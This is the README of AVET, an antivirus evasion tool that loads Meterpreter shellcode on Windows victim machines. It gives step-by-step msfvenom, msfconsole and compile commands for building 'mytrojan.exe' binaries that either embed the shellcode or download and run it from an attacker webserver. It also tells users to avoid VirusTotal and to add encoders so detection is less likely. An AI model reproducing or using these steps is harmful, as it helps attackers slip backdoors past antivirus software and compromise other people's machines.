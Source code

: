 AntiVirus Evasion Tool
======================

Avet was developed based on Backtrack 5, but also works with Kali 2. Shellcode downloading (-u) is a bit buggy and noisy, so better use the -f switch. 

Because of the huge interest I decided to spend some time for enhancing & developing avet.

For basics about antivirus evasion have a look at my old article: https://govolutionde.files.wordpress.com/2014/05/avevasion_pentestmag.pdf
and: https://deepsec.net/docs/Slides/2014/Why_Antivirus_Fails_-_Daniel_Sauder.pdf

What & Why:
- when running an exe file made with msfpayload & co, the exe file will often be recognized by the antivirus software
- avet is a antivirus evasion tool targeting windows machines
- avet includes two tools, avet.exe with different antivirus evasion techniques and make_avet for compiling a preconfigured binary file
- avet.exe loads ASCII encoded shellcode from a textfile or from a webserver, further it is using an av evasion technique to avoid sandboxing and emulation
- for encoding the shellcode the tool format.sh and sh_format are included
- this readme applies for Kali 2 and tdm-gcc

How to install tdm-gcc with wine:
https://govolution.wordpress.com/2017/02/04/using-tdm-gcc-with-kali-2/


How to use avet.exe
-------------------

You can use the precompiled avet.exe file as a shellcode loader.

Example 1, loading shellcode from a file:

Attackers machine:
```
$ msfvenom -p windows/meterpreter/bind_tcp -f c -a x86 --platform Windows > sh.txt
$ ./format.sh sc.txt > sc_clean.txt
```

Copy sc_clean.txt & avet.exe to the victim machine.
```
$ msfconsole
msf > use multi/handler
msf  exploit(handler) > set payload windows/meterpreter/bind_tcp 
msf  exploit(handler) > set rhost xyz
msf  exploit(handler) > exploit 
```

On the victim machine:
```
c:\whatever>avet.exe -f shellcode.txt
```

Example 2, loading shellcode from a webserver:

Attackers machine:
```
$ msfvenom -p windows/meterpreter/bind_tcp -f c -a x86 --platform Windows > sh.txt
$ ./format.sh sc.txt > sc_clean.txt
```

Copy sc_clean.txt to your webroot and avet.exe to the victim machine.
```
$ msfconsole
msf > use multi/handler
msf  exploit(handler) > set payload windows/meterpreter/bind_tcp 
msf  exploit(handler) > set rhost xyz
msf  exploit(handler) > exploit 
```

On the victim machine:
```
c:\whatever>avet.exe -u yourserver/sc_clean.txt
```

How to use make_avet
--------------------
Compile if needed:
```
$ gcc -o make_avet make_avet.c
```

Example 1, compile shellcode into the .exe file:
```
$ msfvenom -p windows/meterpreter/bind_tcp -f c -a x86 --platform Windows > sh.txt
$ ./format.sh sh.txt > sh_clean.txt
$ ./make_avet -f sh_clean.txt
$ wine gcc.exe -m32 -o mytrojan.exe avet.c
```

Example 2, make an .exe file that downloads a shellcode from a webserver:
```
$ msfvenom -p windows/meterpreter/bind_tcp -f c -a x86 --platform Windows > sh.txt
$ ./format.sh sh.txt > sh_clean.txt
$ cp sh_clean.txt /var/www
$ ./make_avet -u 192.168.2.112/sh_clean.txt
$ wine gcc.exe -m32 -o mytrojan.exe avet.c
```

Check out the other options as well:
```
-f compile shellcode into avet.exe, needs filename
-u load and exec shellcode from url using internet explorer
-p print debug information
-h help
```

Some notes
----------

Rebuild avet.exe:
No problem, ensure no content is in defs.h (`echo "">defs.h`), then compile with:
```
$ wine gcc.exe -m32 -o avet.exe avet.c
```

Have a look for build.sh for easier handling.

Do not upload your samples to virustotal or similar platforms.

For adding more random (and lower chances of detection) to the binary additionaly use msf encoders like shikata ga nai.
